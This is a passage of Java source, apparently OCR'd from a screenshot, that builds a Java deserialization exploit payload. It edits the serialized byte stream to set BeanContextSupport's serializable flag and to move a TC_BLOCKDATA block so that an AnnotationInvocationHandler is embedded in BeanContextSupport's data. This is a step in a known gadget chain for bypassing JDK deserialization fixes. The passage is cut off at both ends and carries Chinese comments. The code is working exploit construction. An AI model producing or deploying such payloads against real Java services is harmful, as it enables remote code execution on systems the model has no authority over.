 ```java
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 115){
                System.out.println("[+] Modify BeanContextSupport.serializable from 0 to 1");
                bytes[i+6] = 1;
                break;
            }
        }

        /**
         TC_BLOCKDATA - 0x77
         Length - 4 - 0x04
         Contents - 0x00000000
         TC_ENDBLOCKDATA - 0x78
         **/

        //把这部分内容先删除，再附加到 AnnotationInvocationHandler 之后
        //目的是让 AnnotationInvocationHandler 变成 BeanContextSupport 的数据流
        //0x77 = 119, 0x78 = 120
        //0x77 for TC_BLOCKDATA, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 119 && bytes[i+1] == 4 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i+4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 120){
                System.out.println("[+] Delete TC_BLOCKDATA...int...TC_BLOCKDATA at the End of BeanContextSupport");
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                bytes = Util.deleteAt(bytes, i);
                break;
            }
        }

        /*
              serialVersionUID - 0x00 00 00 00 00 00 00 00
                  newHandle 0x00 7e 00 28
                  classDescFlags - 0x00 -
                  fieldCount - 0 - 0x00 00
                  classAnnotations
                    TC_ENDBLOCKDATA - 0x78
                  superClassDesc
                    TC_NULL - 0x70
              newHandle 0x00 7e 00 29
         */
        //0x78 = 120, 0x70 = 112
        //0x78 for TC_ENDBLOCKDATA, 0x70 for TC_NULL
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 && bytes[i+3] == 0 &&
                    bytes[i + 4] == 0 && bytes[i+5] == 0 && bytes[i+6] == 0 && bytes[i+7] == 0 &&
                    bytes[i+8] == 0 && bytes[i+9] == 0 && bytes[i+10] == 0 && bytes[i+11] == 120 &&
                    bytes[i+12] == 112){
                System.out.println("[+] Add back previous delte TC_BLOCKDATA...int...TC_BLOCKDATA after invocationHandler");
                i = i + 13;
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x77);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x04);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x00);
                bytes = Util.addAtIndex(bytes, i++, (byte) 0x78);
                break;
```